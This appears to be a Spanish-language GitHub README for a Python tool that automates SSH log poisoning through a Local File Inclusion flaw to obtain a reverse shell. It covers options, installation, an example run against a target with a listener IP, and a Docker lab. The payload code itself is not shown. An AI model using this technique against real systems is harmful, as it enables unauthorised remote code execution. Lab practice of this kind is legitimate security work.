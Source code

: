 # Log Poisoning SSH → Automated Reverse Shell

[Herramienta](<autopoisonSSH.py>) escrita en **Python** que permite obtener una **Reverse Shell** de forma automatizada mediante el envenenamiento de los logs relacionados con **SSH**, como **auth.log** o **btmp**. Para lograrlo, es necesario contar con una vulnerabilidad de Inclusión Local de Archivos (**LFI** - Local File Inclusion) o de Lectura Arbitraria de Archivos (Arbitrary File Read), lo que permite acceder y manipular dichos registros.

Las opciones disponibles son las siguientes:

```ps
usage: autopoisonSSH.py [-h] -u TARGET_URL -t-ip TARGET_IP -h-ip HOST_IP [-p TARGET_PORT] [-p-ssh TARGET_SSH_PORT] [-l LISTEN_PORT]

☠️ SSH Log Poisoning with LFI → Automated Reverse Shell ☠️

ej: python3 autopoison.py -u "http://172.17.0.2/vuln.php?file" -t-ip 172.17.0.1 -h-ip 172.17.0.2

options:
  -h, --help                                 show this help message and exit
  -u, --target-url          TARGET_URL       Target web url with PHP vulnerable file - ej: http://172.17.0.2/vuln.php?file
  -t-ip, --target-ip        TARGET_IP        Target IP - ej: 172.17.0.2
  -h-ip, --host-ip          HOST_IP          Host IP - ej: 172.17.0.1
                                             
  -p, --target-port         TARGET_PORT      Target http port                                                              (default =   80)
  -p-ssh, --target-ssh-port TARGET_SSH_PORT  Target ssh port                                                               (default =   22)
  -l, --listen-port         LISTEN_PORT      Listen port                                                                   (default = 4444)
```

---
## ¿Por que usar este Proyecto?

En el caso de que queramos explotar un **Log Poisoning** de la manera tradicional nos encontraremos con el inconveniente que vemos en la captura de pantalla por lo que con el uso de este script evitaremos dicho inconveniente gracias a la librería **paramiko** de **python**.

![Pasted image 20240806161520](https://github.com/user-attachments/assets/73c86309-aaa0-442f-afe7-33b87c10b374)

---
## Descarga

Nos clonamos el repositorio de la siguiente forma:
```bash
git clone https://github.com/Trr0r/autopoisonSSH
cd autopoisonSSH
```

Instalamos las librerías necesarias gracias a **pip3**:
```bash
pip3 install -r requirements.txt
```

---
## Uso

En primer lugar debemos detectar la ruta donde se acontece el **LFI**:

![Pasted image 20240806161403](https://github.com/user-attachments/assets/9238bfd1-c0f2-4eef-abbf-6729aa0457ca)

En segundo y último lugar ejecutaremos el script pasándole los parámetros necesarios tal y como vemos a continuación:

```shell
python3 autopoisonSSH.py -u "http://172.17.0.2/index.php?filename" -t-ip 172.17.0.2 -h-ip 172.17.0.1
```

![Screenshoot POC](https://github.com/user-attachments/assets/815ab114-ac38-448b-af13-364e4a239aef)

---
## Puesta en Práctica

Una vez que tengamos el [Dockerfile](Dockerfile) descargado, ejecutaremos el siguiente comando posicionándonos en el mismo directorio donde se encuentra el [Dockerfile](Dockerfile).

```bash
docker build -t logpoisoning_image .
```

Tras correr el anterior comando, finalmente montaremos el contenedor gracias a la siguiente instrucción.

```bash
docker run -dit --name ssh_logpoisoning logpoisoning_image
```

---
### Advertencia legal

> [!WARNING]
> Este software está destinado solo para uso personal y debe utilizarse únicamente en entornos controlados y con autorización previa. El empleo de esta herramienta en sistemas o redes sin la debida autorización puede ser ilegal y contravenir políticas de seguridad. El desarrollador no se hace responsable de daños, pérdidas o consecuencias resultantes de su uso inapropiado o no autorizado. Antes de utilizar esta herramienta, asegúrate de cumplir con todas las leyes y regulaciones locales pertinentes.
